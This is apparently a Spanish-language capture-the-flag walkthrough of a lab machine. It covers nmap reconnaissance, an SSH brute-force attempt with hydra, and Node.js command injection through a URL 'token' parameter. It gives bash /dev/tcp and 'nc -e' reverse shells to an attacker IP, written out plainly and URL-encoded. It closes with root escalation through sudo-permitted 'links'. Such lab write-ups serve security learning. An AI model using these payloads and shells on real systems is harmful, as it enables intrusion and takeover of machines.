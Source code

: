 ## Reconocimiento
Comenzamos con el respectivo reconocimiento usando `nmap`.
``` bash
nmap -p- -sS -sCV --min-rate 5000 -n -Pn 192.168.0.104 -oG scan
```
![[Screenshot from 2023-12-13 05-05-06.png]]
- La versión de ssh en la 9.2p1, bastante actualizada, no hay mucho que hacer por ahi
- Tenemos el puerto 80 disponible, pero en realidad solo hay una pagina manual de apache
- En el puerto 5000 podemos ver lo que parece una app de nodejs, verificamos en el navegador

![[Screenshot from 2023-12-13 05-08-22.png]]
Si ingresamos cualquier texto en el campo de `name` nos devuelve una url con el siguiente formato (e.j. con el usuario pepe)
``` html
http://192.168.0.104:5000/?name=pepe&token=55569675
```
- Si modificamos el token en la url con más numeros, la pagina aún carga con 'normalidad'
- Si modificamos agregando un string nos salta un error relacionado con javascript

![[Screenshot from 2023-12-13 05-20-13.png]]

Acá podemos deducir:
- Un usuario `aleister`
- El directorio donde corre esta app se encuentra en `/home/aleister/website`

### SSH Force Brute
En este punto al tener un usuario podría resultar interesante ejecutar `hydra` para un ataque de fuerza bruta a través de ssh
``` bash
hydra -l aleister -P /usr/share/dict/rockyou.txt ssh://192.168.0.104 
## SPOILER: no funciona
```
### Javascript Command Injection
En este punto, podemos probar si la url es vulnerable a algun tipo de _command injection_ en el payload.
- El campo user es equivalente al texto que le agregamos en la cajita de nombre y en realidad no ejecuta ningun comando por detras. 
- El campo token ha respondido a la inyección de nuestro codigo javascript que ejecuta en la shell un timer de 5 segundos.
	
```javascript
require('child_process').execSync('sleep 5');
```

Para evitar problemas con los espaciados y saltos de linea en la url le mandamos la instrucción en formato `url-encoded`
``` html
http://192.168.0.104:5000/name=pepe&token=require%28%27child_process%27%29.execSync%28%27sleep%205%27%29%3B
```
Comprobado esto, procedemos a mandar una reverse shell para que nos pueda otorgar una consola desde la que podemos operar. 
- Primeramente nos ponemos en escucha con `ncat` por el puerto 4444.
	``` bash
	ncat -lvp 4444
	```
- Ejecutamos el ya conocido reverse shell por el protocolo TCP a través de bash
	``` bash
	bash -i >& /dev/tcp/192.168.0.107/4444 0>&1 # IP maquina atacante
	```
	La url quedaria de esta forma (con el url-encoded)
	``` html
	http://192.168.0.104:5000/?name=pepe&token=require%28%27child_process%27%29.execSync%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.107%2F4444%200%26%3E1%27%29%3B
	```

##### LECTURA OPCIONAL: POSIX y los problemas con la sintaxis stderr/stdout estandar

Ver: [[POSIX y los problemas con stdout - stdeer]]

#### Reverse shell con netcat
Entonces como tenemos ese problema con sh, podemos buscar otras formas de hacer la `reverse shell`, por ejemplo con `ncat`.
``` bash
nc -e /bin/sh 192.168.0.107 4444
```
Con la url _url-encodeada_, quedaria:
``` html
http://192.168.0.104:5000/?name=pepe&token=require%28%27child_process%27%29.execSync%28%27nc%20-e%20%2Fbin%2Fsh%20192.168.0.107%204444%27%29%3B
```
Ejecutamos y... Bingo!

## Escalada de privilegios (Privesec)
### Tratamiento de la tty
Lo primero que vamos a resolver es la cuestión de la tty. Ejecutamos los siguientes comandos en el ncat que estaba en escucha por el 4444.

Ver: [[Linux Full TTY (Interective shell)]]
### Reconocimiento de la maquina victima
Si ejecutamos `sudo -l` podemos ver que tenemos la app ubicada en `/usr/bin/links` que podemos ejecutar como `root` sin necesidad de presentar una contraseña. Probamos, en realidad no parece salir nada, pero si presionamos `Esc` podemos ver un panel de opciones.

![[Screenshot from 2023-12-14 00-54-27.png]]
### Ascenso a root
Si buscamos las opciones entre los paneles, podemos ver que en el apartado _File_ existe una opción llamada _OS shell_.

![[Screenshot from 2023-12-14 00-57-01.png]]
Si ejecutamos esa opción como tal, nos devolvera una shell como el usuario root. Eso es todo.
##### OPCIONAL: Posibilidad de ascender a root a través de una reverse shell desde una pagina en el navegador (?)
La idea de este punto es poder ejecutar alguna pequeña pagina en la cual le puedas inyectar codigo que se ejecute como `client-side` (nosotros desde el navegador somos el cliente) que probablemente se termine ejecutando como root. Solo es una idea igual y no se si es posible, si bien investigando encontre que hay muchos problemas a la hora de ejecutar comandos en el lado del cliente (lo cual tiene sentido por razones de seguridad).

